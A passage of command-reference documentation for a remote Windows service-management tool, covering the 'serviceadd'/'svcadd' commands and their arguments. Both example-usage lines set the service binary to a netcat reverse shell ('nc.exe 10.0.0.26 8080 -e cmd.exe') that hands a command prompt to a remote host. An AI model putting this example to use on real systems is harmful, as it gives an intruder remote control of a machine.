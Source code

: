 - **`serviceid`**: Specify the ID of the service to delete
  - Required: No

- **`service_name`**: Specify the name of the service to delete
  - Required: No

---

## `serviceadd`

**Description:** Create a new service on the remote server

**Help:**
```
serviceadd [-h] -n NAME -b BINARY_PATH -d DISPLAY_NAME -s {auto,demand,system}
Create a new service on the remote server
```

**Example Usage:**
```
Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"
```

### Arguments

- **`name`**: Specify the name of the new service
  - Required: Yes

- **`binary_path`**: Specify the binary path of the new service
  - Required: Yes

- **`display_name`**: Specify the display name of the new service
  - Required: Yes

- **`start_type`**: Specify the start type of the new service
  - Choices: auto, demand, system
  - Default: `demand`
  - Required: Yes

---

## `svcadd`

**Description:** Create a new service on the remote server

**Help:**
```
serviceadd [-h] -n NAME -b BINARY_PATH -d DISPLAY_NAME -s {auto,demand,system}
Create a new service on the remote server
```

**Example Usage:**
```
Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"
```

### Arguments
